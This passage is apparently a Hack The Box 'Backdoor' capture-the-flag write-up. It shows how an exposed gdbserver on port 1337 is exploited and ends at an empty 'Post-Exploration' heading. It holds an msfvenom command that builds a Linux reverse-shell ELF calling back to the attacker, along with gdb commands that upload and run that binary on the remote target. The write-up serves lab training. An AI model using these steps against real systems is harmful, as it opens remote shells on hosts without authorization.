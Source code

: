 ```bash
/bin/sh -c while true;
    do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; 
done
```

# Exploration

## Exploring GDB Server

Reference: [https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver](https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver)

> Hacktricks has a [page](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver) on how to explore `gdbserver` files. I suspect that at least the first technique has been tested on the Backdoor (given the use of port 1337 and the location of `/home/user`). This technique consists of creating an elf, loading it into the remote debugger and running it there.
> 

I'm going to create a simple reverse shell payload with `msfvenom`:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=443 PrependFork=true -f elf -o perverse.elf
```

Then started debugging locally:

```bash
gdb -q perverse.elf
```

```bash
## We are in gdb context

## Now, connect to the remote server:
target extended-remote 10.10.11.125:1337

## With this connection, I can load the binary:
remote put perverse.elf /tmp/perverse.elf

## On kali, prepare a listener on port 443

## Now I just need to set the remote debug target for this file and run it:
set remote exec-file /tmp/perverse.elf
run
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Backdoor/Untitled%2016.png)

We managed to shell with the `user` user.

# Post-Exploration
